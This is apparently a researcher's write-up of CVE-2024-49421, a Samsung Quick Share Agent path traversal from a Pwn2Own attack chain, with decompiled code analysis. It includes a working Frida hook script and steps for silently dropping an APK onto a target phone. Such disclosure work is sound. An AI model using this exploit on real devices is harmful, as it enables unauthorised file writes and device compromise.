 ```yaml
---
layout: cve
title: "Samsung Quick Share Agent Path Traversal - CVE-2024-49421"
cve_id: "CVE-2024-49421"
date: 2024-12-01
reference: 
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-49421
  - https://security.samsungmobile.com/securityUpdate.smsb?year=2024&month=12
description: "Path traversal in Quick Share Agent prior to version 3.5.14.47 in Android 12, 3.5.19.41 in Android 13, and 3.5.19.42 in Android 14 allows adjacent attackers to write file in arbitrary location."
---
```


The below snippet is taken from the full white paper, available here: [https://maliciouserection.com/2025/05/13/pwn2own-ireland-2024-samsung-s24-attack-chain-whitepaper.html](/2025/05/13/pwn2own-ireland-2024-samsung-s24-attack-chain-whitepaper.html)

I think you should read the white paper instead :)

--------------------------------------------------------

#### Exploit Payload

A Frida script (or Xposed Module) can be used to exploit this issue. Run the following Frida Script on an attacker controlled phone:

```
console.log("script loaded");
Java.perform(function() {

    var yayclass1yay = Java.use('e2.t');

    yayclass1yay.n.overload('org.json.JSONObject', 'e2.h', 'boolean').implementation = function(a,b,c) {

        if (a.has("IsPrivateShare")) {
            a.put("IsPrivateShare", true)
        }
        if (a.has("Path")) {
            a.put("Path","/../../../../../../GPUWatch_Dump/html/")
        }
        var ret_val = this.n(a,b,c);
        console.log("send json: " + a + "\n" + "send bytes: " + ret_val + "\n")
        return ret_val;
    }
});
```

The attacker controlled phone should then share a file on their phone via Quick Share. Take note of the QR code URL that is generated on the attacker controlled phone generate. That QR code URL should then be used to launch Quick Share on the target phone.

NOTE: the `GPUWatch_Dump/html/` value in the above script is strictly used for this exploit chain. 

#### Exploit Details

The application "Quick Share Agent" (`com.samsung.android.aware.service` version 3.5.19.33) is a background application that runs alongside the Quick Share application. When sending and receiving files via Quick Share, it is actually Quick Share Agent that handles connections to remote phones and sending/receiving files.

In Quick Share Agent, the class `e2.t` handles:

* Managing a Socket connection between phones
* Sending data to the remote device
* Receiving data from the remote device

When sending a file, two JSON messages are sent before sending the file(s). The first message establishes information about the connection, and two fields are of interest for this exploit chain:

* What type of data is being sent (File/Folder)
* If the transfer is considered a "PrivateShare", which is a Samsung exclusive function to encrypt the file being sent

```
{
  "TotalBytes": 3322214,
  "TotalCount": 1,
  "ItemType": "File",
  "IsAlbumShare": true,
  "IsPrivateShare": false,
  "SenderFriendlyName": "YayAttackerPhoneYay",
  "TransportDescription": "",
  ...
```

The second message contains information about the file/folder being sent. Two fields are of interest for this exploit chain:

* Name
* Path

```
{
  "Name": "Yay.jpg",
  "TotalBytes": 3322214,
  "Path":"\/storage\/emulated\/0\/ShareViaWifi\/Yay.jpg",
  "Url": "ftcp_url_0_",
  ...
```

When the second message is received, Quick Share Agent passes the received JSON string to class `f2.i` method `s(JSONObject)`. From there, Name and Path are passed to two different sanitization functions, depending on if class `x1.b` method `x()` returns `True` or `False`.

```
public final class i implements k.c, c.c {
    public final b b;
...
    public final f2.l s(JSONObject yayreceivedjsonyay) {
        ...
        String yaynameyay;
        String yaypathyay;
        if(this.b.x()) {
            // no sanitization
            yaynameyay = yayreceivedjsonyay.optString("Name", "Unknown.dat");
            yaypathyay = yayreceivedjsonyay.optString("Path");
        }
        else {
            // sanitize Name and Path
            String yaytemp1yay = yayreceivedjsonyay.optString("Name", "Unknown.dat");
            yaynameyay = new k5.i("[:\"<>*?|/\u0000-\u001F\u007F\\\\]").e (yaytemp1yay, "-"); // sanitizes name
            String yaytemp2yay = yayreceivedjsonyay.optString("Path");
            yaypathyay = new k5.i("[:\"<>*?|\u0000-\u001F\u007F\\\\]").e(yaytemp2yay, "-");
        }
```

Looking at class `x1.b` method `x()`, the return value was dependent on the value of the static Boolean value `h`. And the value of `h` is dependent on whatever executes the method `J(boolean)`.

```
public class b {
    public boolean h;
    ...
    public final void J(boolean z5) {
        this.h = z5;
    }
    ...
    public final boolean x() {
        return this.h;
    }
```

Previously, it was mentioned that 2 JSON messages are sent to the receiving phone. The first message is processed in class `f2.i` method `D(c, JSONObject)`. In one part of that method, the value related to the key `IsPrivateShare` is extracted and then is passed as an argument to class `x1.b` method `J(boolean)`.

```
public final class i implements k.c, c.c {
...
    public final boolean D(c c, JSONObject yayjsonobjectyay) {
        ...
        this.g.J(yayjsonobjectyay.optBoolean("IsPrivateShare", false));
```

#### BUG 4 – IsPrivateShare is attacker controlled, resulting in a Path Traversal attack

When receiving a file/folder from an attacker controlled phone, and the attacker controlled phone sends a IsPrivateShare value of True, then the attacker controlled phone can force the target phone to save the incoming file into any directory that Quick Share Agent has write access to.

In our exploit chain, we use this vulnerability to save a Drozer .apk file onto the victim's phone at the location `/storage/emulated/0/GPUWatch_Dump/html/`. In order to do this, first run the following Frida command. Note that you might have to share a file normally first in order to start the Quick Share Agent service:

```
$ frida -U -l yayscriptyay.js com.samsung.android.aware.service
```
Below is the contents of yayscriptyay.js. This script will:

* Intercept all JSON messages that are intended to be sent to the receiving phone
* Change the IsPrivateShare value to True
* Change the Path value to `/../../../../../../GPUWatch_Dump/html/`

```
console.log("script loaded");
Java.perform(function() {

    var yayclass1yay = Java.use('e2.t');

    yayclass1yay.n.overload('org.json.JSONObject', 'e2.h', 'boolean').implementation = function(a,b,c) {

        if (a.has("IsPrivateShare")) {
            a.put("IsPrivateShare", true)
        }
        if (a.has("Path")) {
            a.put("Path","/../../../../../../GPUWatch_Dump/html/")
        }
        var ret_val = this.n(a,b,c);
        console.log("send json: " + a + "\n" + "send bytes: " + ret_val + "\n")
        return ret_val;
    }
});
```

NOTE: the number of "../" in the new Path value matters. When Quick Share "downloads a folder" from a phone, it actually performs the following steps:

1.  Creates a new directory `/storage/emulated/0/Android/data/com.samsung.android.aware.service/files/<session_id>/`
2.  The folder(s) defined in the Path value are created in the above mentioned directory
3.  The file(s) that are in the sender's phone are sent to the receiving phone, and saved in the above newly created directory
4.  Once all files are sent, the above newly created directory is copied to `/storage/emulated/0/Download/Quick Share/`

The number of "../" ensures that during the folder creation process (step 2), the folder(s) are created in the `/storage/emulated/0/` directory.

Once the Frida script is running, place the .apk file into any directory on the attacker controlled phone. Then share the folder and select "Quick Share". Finally, generate a QR code for the share by tapping "QR code or link".

<div align="center">
    <img src="/assets/images/blog/2025-05-13-pwn2own-ireland-2024-samsung-s24-attack-chain-whitepaper/pwn2own-ireland-2024-whitepaper-3.png">
</div>


Now when someone tries to download the folder, yay.apk will be placed in `/storage/emulated/0/GPUWatch_Dump/html/`.

```
e1s:/storage/emulated/0 # ls ./GPUWatch_Dump/html/
yay.apk
```

<div align="center">
    <img src="/assets/images/blog/2025-05-13-pwn2own-ireland-2024-samsung-s24-attack-chain-whitepaper/pwn2own-ireland-2024-whitepaper-4.png">
</div>


For our exploit chain, when the attacker phone generates a QR code, the random code at the end of the URL should be used in bug 4. This will force the target phone to download the .apk file automatically without user confirmation.